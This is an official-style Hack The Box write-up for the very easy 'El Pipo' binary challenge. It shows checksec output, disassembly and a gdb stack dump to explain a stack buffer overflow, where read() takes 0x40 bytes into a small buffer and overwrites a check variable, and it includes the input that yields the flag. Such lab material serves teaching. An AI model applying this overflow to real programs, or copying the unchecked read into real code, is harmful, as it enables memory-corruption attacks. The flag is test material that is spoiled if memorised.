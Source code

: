 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">El Pipo</font>

​		11 September 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 



# Synopsis

El Pipo is a very easy difficulty challenge that features simple Buffer Overflow to change a variable's value.

# Description

An ancient spirit, El Pipo, has taken control of this place. Face your fears and try to drive it away with your most vicious scream!

## Skills Required

- Basic C.

## Skills Learned

- Buffer Overflow.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch: amd64
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface:

```bash
─➤  ./el_pipo 
el pipo
Not scary enough.. Boo! :(

╰─➤  ./el_pipo 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
HTB{3l_p1p0v3rfl0w}
```

![](assets/poc.gif)

### Disassembly

Starting with `main()`:

```c
000012ff  int32_t main(int32_t argc, char** argv, char** envp)

000012ff  {
0000130b      int64_t buffer;
0000130b      __builtin_memset(&buffer, 0, 0x20);
0000132b      char target = 1;
00001340      read(0, &buffer, 0x40);
00001349      if (target == 1)
00001349      {
00001375          fwrite("Not scary enough.. Boo! :(", 1, 0x1a, __TMC_END__);
00001384          fflush(__TMC_END__);
00001349      }
00001349      else
00001349      {
00001350          read_flag();
00001349      }
0000138f      return 0;
000012ff  }
```

We can see there is `target` variable, which has the value `1`. This does not change throughout the program but is checked in order to call the `read_flag` function that prints the flag. What we need to do, is writing many bytes to the `buffer` which is `0x20` bytes long, and perform a `buffer overflow` to overwrite the `target` value. The `buffer overflow` occurs because the `read` function takes up to `0x40` bytes. To be more accurate, we can see the assembly.

### Debugging 

```gdb
pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000012ff <+0>:	endbr64 
   0x0000000000001303 <+4>:	push   rbp
   0x0000000000001304 <+5>:	mov    rbp,rsp
   0x0000000000001307 <+8>:	sub    rsp,0x30
   0x000000000000130b <+12>:	mov    QWORD PTR [rbp-0x30],0x0
   0x0000000000001313 <+20>:	mov    QWORD PTR [rbp-0x28],0x0
   0x000000000000131b <+28>:	mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000001323 <+36>:	mov    QWORD PTR [rbp-0x18],0x0
   0x000000000000132b <+44>:	mov    BYTE PTR [rbp-0x1],0x1
   0x000000000000132f <+48>:	lea    rax,[rbp-0x30]
   0x0000000000001333 <+52>:	mov    edx,0x40
   0x0000000000001338 <+57>:	mov    rsi,rax
   0x000000000000133b <+60>:	mov    edi,0x0
   0x0000000000001340 <+65>:	call   0x1110 <read@plt>
   0x0000000000001345 <+70>:	cmp    BYTE PTR [rbp-0x1],0x1
   0x0000000000001349 <+74>:	je     0x1357 <main+88>
   0x000000000000134b <+76>:	mov    eax,0x0
   0x0000000000001350 <+81>:	call   0x1269 <read_flag>
   0x0000000000001355 <+86>:	jmp    0x1389 <main+138>
   0x0000000000001357 <+88>:	mov    rax,QWORD PTR [rip+0x2cb2]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x000000000000135e <+95>:	mov    rcx,rax
   0x0000000000001361 <+98>:	mov    edx,0x1a
   0x0000000000001366 <+103>:	mov    esi,0x1
   0x000000000000136b <+108>:	lea    rax,[rip+0xce0]        # 0x2052
   0x0000000000001372 <+115>:	mov    rdi,rax
   0x0000000000001375 <+118>:	call   0x1170 <fwrite@plt>
   0x000000000000137a <+123>:	mov    rax,QWORD PTR [rip+0x2c8f]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x0000000000001381 <+130>:	mov    rdi,rax
   0x0000000000001384 <+133>:	call   0x1120 <fflush@plt>
   0x0000000000001389 <+138>:	mov    eax,0x0
   0x000000000000138e <+143>:	leave  
   0x000000000000138f <+144>:	ret    
End of assembler dump.
```

We can see that the `target` value is at: `   0x000000000000132b <+44>:	mov    BYTE PTR [rbp-0x1],0x1`.

The buffer seems to have `0x30` bytes: `   0x000000000000130b <+12>:	mov    QWORD PTR [rbp-0x30],0x0`.

Let's try and enter some "A" to see the stack layout.

```gdb
pwndbg> x/20gx $rsp
0x7fffffffdcd8:	0x0000555555555345	0x4141414141414141 # 0x8  bytes
0x7fffffffdce8:	0x000000000000000a	0x0000000000000000 # 0x10 bytes
0x7fffffffdcf8:	0x0000000000000000	0x0000000000001000 # 0x10 bytes
0x7fffffffdd08:	0x0100555555555180	0x0000000000000001 # 0x8  bytes until we see 1
```

Indeed, after `0x30` bytes we overwrite the address of `target`.
